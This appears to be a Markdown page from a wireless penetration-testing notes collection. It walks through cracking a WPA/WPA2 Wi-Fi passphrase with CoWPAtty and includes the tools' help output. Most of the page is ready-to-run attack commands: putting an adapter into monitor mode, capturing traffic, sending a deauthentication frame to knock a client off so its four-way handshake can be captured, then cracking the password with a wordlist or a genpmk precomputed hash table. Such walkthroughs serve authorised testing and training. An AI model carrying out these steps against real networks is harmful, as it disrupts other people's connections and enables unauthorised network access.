 # CoWPAtty Attack (WPA/WPA2)

Use CoWPAtty to crack the password in either dictionary mode (plaintext) or hash mode. The latter is quicker.

## Commands

* Run [setup](../../setup.md) first

```bash
# Install cowpatty/genpmk
sudo apt-get install cowpatty

# Start monitor mode
sudo airmon-ng start wlan0

# Start a screen session with a horizonal split screen

# Start monitor mode but with filters and output saved to PCAP.
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap wlan0mon

# Do one deauth injection attack while still monitoring
sudo aireplay-ng -0 1 -a $BSSID -c $CLIENT wlan0mon

# Wait for the four-way handshake to appear in airodump-ng window.
# Stop airodump-ng when it appears
qq

# Check if four-way handshake is indeed valid
cowpatty -r $PCAP -c

# Crack the password in dictionary mode (slowest)
cowpatty -r $PCAP -f $WORDLIST -s $SSID

# Crack the password in hash mode (fastest)

## Generate a RAINBOW table using a wordlist and filter by SSID
genpmk -f $WORDLIST -d $RAINBOW -s $SSID

## Crack the password with the RAINBOW table and filter by SSID
cowpatty -r $PCAP -d $RAINBOW -s $SSID
```
## References

* [cowpatty](https://www.willhackforsushi.com/?page_id=50)

```text
cowpatty -h
cowpatty 4.8 - WPA-PSK dictionary attack. <jwright@hasborg.com>

Usage: cowpatty [options]

        -f      Dictionary file
        -d      Hash file (genpmk)
        -r      Packet capture file
        -s      Network SSID (enclose in quotes if SSID includes spaces)
        -c      Check for valid 4-way frames, does not crack
        -h      Print this help information and exit
        -v      Print verbose information (more -v for more verbosity)
        -V      Print program version and exit
```

```text
genpmk -h
genpmk 1.3 - WPA-PSK precomputation attack. <jwright@hasborg.com>
Usage: genpmk [options]

        -f      Dictionary file
        -d      Output hash file
        -s      Network SSID
        -h      Print this help information and exit
        -v      Print verbose information (more -v for more verbosity)
        -V      Print program version and exit

After precomputing the hash file, run cowpatty with the -d argument.
```

![fourway-handshake](../../images/fourway-handshake.png)